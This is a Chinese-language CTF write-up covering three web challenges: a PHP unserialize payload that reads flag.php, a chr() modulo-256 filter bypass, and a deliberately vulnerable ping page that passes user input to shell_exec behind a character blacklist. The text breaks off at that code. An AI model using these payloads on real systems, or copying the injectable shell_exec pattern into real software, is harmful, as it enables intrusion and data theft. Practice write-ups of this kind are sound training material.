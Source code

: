 我们先在网页源代码看到了==unserialize.php==这个地址，进入后是一段源代码

检查函数后发现这是一个**PHP反序列化漏洞**，我们构造payload

```
http://10.30.25.54:28030/unserialize.php

xixi=O:4:"Easy":1:{s:4:"file";s:8:"flag.php";} 
```

![CTF_easy_unser](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%B8%A9%E8%81%8C%E9%99%A2CTF_easy_unser.png)



### easycode

查看源代码：

```php
<?php

error_reporting(0);
require 'flag.php';
$value = $_GET['value'];
$password = $_GET['password'];
$username = '';

for ($i = 0; $i < count($value); ++$i) {
    if ($value[$i] > 32 && $value[$i] < 127) unset($value);
    else $username .= chr($value[$i]);
    if ($username == 'w3lc0me_To_WZCTF2020' && intval($password) < 2333 && intval($password + 1) > 2333) {
        echo $flag, '<hr>';
    }
}

highlight_file(__FILE__);
```

chr()会先除256取余，然后再转换成字符，所以我们传的ASCII码要加上256



### Ping一下

#### 考点：命令执行绕过

我们首先看到网页源代码，发现过滤了很多东西

```php
<?php

require ('./page.html');
if (!empty($_POST)) {
    header("content-type:text/html;charset=utf-8");
    $ip = $_POST['ip'];

    $as = "/ \/|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\_|\+|\{|\}|\:|\<|\>|\?|\[|\]|\,|\/|\;|\'|\-|\=\| /";
    if (preg_match($as, $ip)) {
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }elseif (preg_match("/\s/", $ip)){
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }elseif (strstr($ip,"fl")){
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }
    $a = shell_exec("ping -c 4 " . $ip);
```